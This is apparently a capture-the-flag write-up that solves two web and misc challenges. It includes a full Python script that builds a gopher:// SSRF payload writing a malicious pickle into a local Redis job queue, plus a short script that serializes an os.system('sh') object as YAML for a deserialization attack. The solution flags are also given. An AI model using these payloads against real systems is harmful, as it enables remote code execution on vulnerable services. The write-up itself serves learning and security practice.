Very noice. So it really does somewhat of a CURL thing. Let's look at the source code and this time I'll ask ChatGPT what the challenge does.

**`blueprints/routes.py`**
``` python
import json
from application.database import db, User, TrapTracks
from flask import Blueprint, Response, jsonify, redirect, render_template, request
from flask_login import login_required, login_user, logout_user
from application.cache import get_job_list, create_job_queue, get_job_queue

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

def response(message, status=200):
    return jsonify({'message': message}), status

@web.route('/', methods=['GET'])
def login():
    return render_template('login.html')

@api.route('/login', methods=['POST'])
def user_login():
    if not request.is_json:
        return response('Missing required parameters!', 401)

    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    if not username or not password:
        return response('Missing required parameters!', 401)

    user = User.query.filter_by(username=username).first()

    if not user or not user.password == password:
        return response('Invalid username or password!', 403)

    login_user(user)
    return response('User authenticated successfully!')

@web.route('/admin/')
@login_required
def scrape_list():
    trap_tracks = TrapTracks.query.all()
    return render_template('admin.html', tracks=trap_tracks)

@api.route('/tracks/list', methods=['GET'])
@login_required
def job_list():
    data = get_job_list()

    if not data:
        return Response(json.dumps([]), mimetype='application/json')

    return Response(json.dumps(data), mimetype='application/json')

@api.route('/tracks/add', methods=['POST'])
@login_required
def tracks_add():
    if not request.is_json:
        return response('Missing required parameters!', 401)

    data = request.get_json()

    trapName = data.get('trapName', '')
    trapURL = data.get('trapURL', '')

    if not trapName or not trapURL:
        return response('Missing required parameters!', 401)

    async_job = create_job_queue(trapName, trapURL)

    track = TrapTracks(trap_name=trapName, trap_url=trapURL, track_cron_id=async_job['job_id'])

    db.session.add(track)
    db.session.commit()

    return response('Trap Track added successfully!', 200)

@api.route('/tracks/delete', methods=['POST'])
@login_required
def tracks_del():
    if not request.is_json:
        return response('Missing required parameters!', 401)

    data = request.get_json()

    trackID = data.get('id', '')

    if not trackID:
        return response('Missing required parameters!', 401)

    try:
        TrapTracks.query.filter_by(id=int(trackID)).delete()
        db.session.commit()
    except Exception as e:
        pass

    return response('Trap Track deleted successfully!', 200)


@api.route('/tracks/<int:job_id>/status', methods=['GET'])
@login_required
def job_status(job_id):
    data = get_job_queue(job_id)

    if not data:
        return response('Job does not exist!', 401)

    return Response(json.dumps(data), mimetype='application/json')

@web.route('/logout')
@login_required
def logout():
    logout_user()
    return redirect('/')
```

> This code is a Flask web application that has two blueprints (web and api) and uses a database to store and manage User and TrapTracks models.
>
> The web blueprint defines three routes:
>
>  1. '/' that renders a login template.
>  2. '/admin/' that requires login and renders an admin template with all TrapTracks.
>  3. '/logout' that requires login and logs out the user.
> 
> The api blueprint defines four routes:
> 1. '/login' that receives a POST request with a JSON payload containing a username and password field, authenticates the user, and returns a response with a message.
> 2. '/tracks/list' that requires login and returns a response with all the TrapTracks.
> 3. '/tracks/add' that requires login and receives a POST request with a JSON payload containing a trapName and a trapURL field, adds a new TrapTrack to the database, and returns a response with a message.
> 4. '/tracks/delete' that requires login and receives a POST request with a JSON payload containing an id field that corresponds to a TrapTrack to be deleted from the database.
> The response function is a helper function that returns a JSON response with a message and an optional status.
> The code uses Flask-Login to manage user authentication and Flask-Caching to cache job data.
> --ChatGPT--

Hmmm, pretty neat, so it does keep records of all the tracks or we might say all the jobs. Let's look deeper into how the jobs are created and executed.

```python
from flask import current_app
import pickle, base64

def env(key):
    val = False
    try:
        val = current_app.config[key]
    finally:
        return val

def get_job_list():
    data = current_app.redis.hkeys(env('REDIS_JOBS'))
    data = [job_id.decode() for job_id in data]

    return data

def get_job_id():
    job_id = current_app.redis.get(env('REDIS_NUM_JOBS'))
    current_app.redis.incr(env('REDIS_NUM_JOBS'))
    return job_id

def create_job_queue(trapName, trapURL):
    job_id = get_job_id()

    data = {
        'job_id': int(job_id),
        'trap_name': trapName,
        'trap_url': trapURL,
        'completed': 0,
        'inprogress': 0,
        'health': 0
    }

    current_app.redis.hset(env('REDIS_JOBS'), job_id, base64.b64encode(pickle.dumps(data)))

    current_app.redis.rpush(env('REDIS_QUEUE'), job_id)

    return data

def get_job_queue(job_id):
    data = current_app.redis.hget(env('REDIS_JOBS'), job_id)
    if data:
        return pickle.loads(base64.b64decode(data))

    return None
```

Okay, so it has some function like:
- Get all jobs' IDs from Redis database
- Get current incremented ID
- Queue a job in the database
- Get the data from of a job with given ID

What truely stand out of all these are these line:

```python
def get_job_queue(job_id):
    data = current_app.redis.hget(env('REDIS_JOBS'), job_id)
    if data:
        return pickle.loads(base64.b64decode(data)) # My money maker

    return None
```

The principal is somewhat similar to a misc chall called [`Hijack`](#hijack-easy). This is no doubt a `pickle deserialization` attack which can execute remote code, our code.

Is this the end of the challenge ? Well, ***no***. Let's look up a few lines and see why.

```python
def create_job_queue(trapName, trapURL):
    job_id = get_job_id()

    data = {
        'job_id': int(job_id),
        'trap_name': trapName,
        'trap_url': trapURL,
        'completed': 0,
        'inprogress': 0,
        'health': 0
    }

    current_app.redis.hset(env('REDIS_JOBS'), job_id, base64.b64encode(pickle.dumps(data))) # This line right here

    current_app.redis.rpush(env('REDIS_QUEUE'), job_id)

    return data
```

The data that should give us way to pass in our malicious class is actually serialized before it can be unserialized. The challenge is not that simple as it looks anymore.

Another features of the app is that health checking thing. It takes a URL and calls to URL regardless of host and protocol. This is perfect as we know Redis also runs on this challenge instance **and** our data is stored on it including those jobs. So if we can somehow manange this feature to change the data of a job to a pickle serialized base64 encoded string of an "evil" object, when this data os loaded, there will be RCE. This can be done with the URL health check features.

So to summarize, we will make use of SSRF vulnerabilities to change the data so it can trigger pickle deserialzation attack.

Good theory, but how can we perform such an attack. There are good resources on this:

https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b

https://trevorsaudi.medium.com/ssrf-to-gaining-rce-rootme-ssrf-box-31b7d0e5ad08

There's a tool called `Gopherus` but since this challenge is more simple, I will try to modify a script on a [github repo](https://github.com/rhamaa/Web-Hacking-Lab/blob/master/SSRF_REDIS_LAB/payload_redis.py) to:

```python
from __future__ import print_function

import os
import sys
import base64
import urllib.parse
import pickle
import subprocess


def generate_resp(command):
    res = ""

    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    
    return res

def generate_gopher(payload):
    
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    return final_payload

class PickleExploit(object):
    def __init__(self, command):
        self.cmd = command

    def __reduce__(self):
        cmd = command
        return (os.system, (cmd,))

def pickle_payload(key, field, command):
    res = ""

    payload = pickle.dumps(PickleExploit(command))
    res += "\r\n"
    res += generate_resp("hset {} {} {}".format(key, field, base64.b64encode(payload).decode()))

    res = res.replace("\n", "\r\n")

    print(generate_gopher(res))

if sys.argv[1] == "pickle":
    key = input("Key name > ")
    field = input("Field name > ")
    command = input("Command > ")
    pickle_payload(key, field, command)
```

This pickle serialized thing works fine on Unix platform. It should also works fine on Windows platform usually, however if you experience any errors on your Windows machine, try to use WSL (Window Subsystem Linux), install Linux on a Virtual Machine or buy a MacBook. 💸💸💸

With that script let's try to finalize our work. We will try to change `hvalue` of `jobs` from `hfield` of 100 (which is the first key:value pair of `jobs`). Why `jobs` ? Because it is the hash key that stores the jobs which contain the serialized object. Why change it ? So we can inject a evil-crafted serialized object of our own so when it is loaded, the command we want to run will be executed.

Overall the technique to solve this challenge is not too flashy, it still requires a lot of knowledge around it. Very nice chall. Hope we all learn something from it.


Flag: `HTB{tr4p_qu3u3d_t0_rc3!}`

## Hijack (easy)

### Challenge

**Description**: The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

### Solution

Let's try to connect to the challenge instance.


And let's try to test out those options.


`ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxNScsIGF1dG9fY2FsaWJyYXRpb246ICdvbicsCiAgcHJvcHVsc2lvbl90ZW1wOiAnMzQzNCcsIHNvbGFyX2FycmF5X3RlbXA6ICcxMicsIHVuaXRzOiBmfQo=`

The function in question generates a base64 encoded string representing a serialized object. To provide some context, serialization is the process of storing an object, such as an array or class, in a database for later retrieval. When the application needs to access the object, it unserializes it, or loads it from the database using a function. This can improve the efficiency of Object-Oriented Programming.

It is important to note, however, that serialized objects should not be vulnerable to manipulation by users. If a user creates a malicious object, it could execute unwanted code. This challenge illustrates this point by presenting us with a serialized object and its corresponding base64 encoding. This is just one example of how serialized objects can be used, and it is essential to be aware of their potential risks.

Let's take a look at the next options. The application is requesting a base64 encoded string of a serialized object.


Upon examining the serialized object provided by the application, I have determined that it is a YAML-formatted Python serialized object. This [article](https://net-square.com/yaml-deserialization-attack-in-python.html) serves as an excellent illustration of how attackers can leverage YAML-based exploits to execute arbitrary code.

Here is the script to generate a serialized object.

```python
import yaml
import os
import base64
class Test(object):
  def __reduce__(self):
    return (os.system, ('sh',))
serialized_data = yaml.dump(Test()) # serializing data
print(base64.b64encode(serialized_data.encode()).decode())
```

Let's grab the result and throw it to the application.


Flag: `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`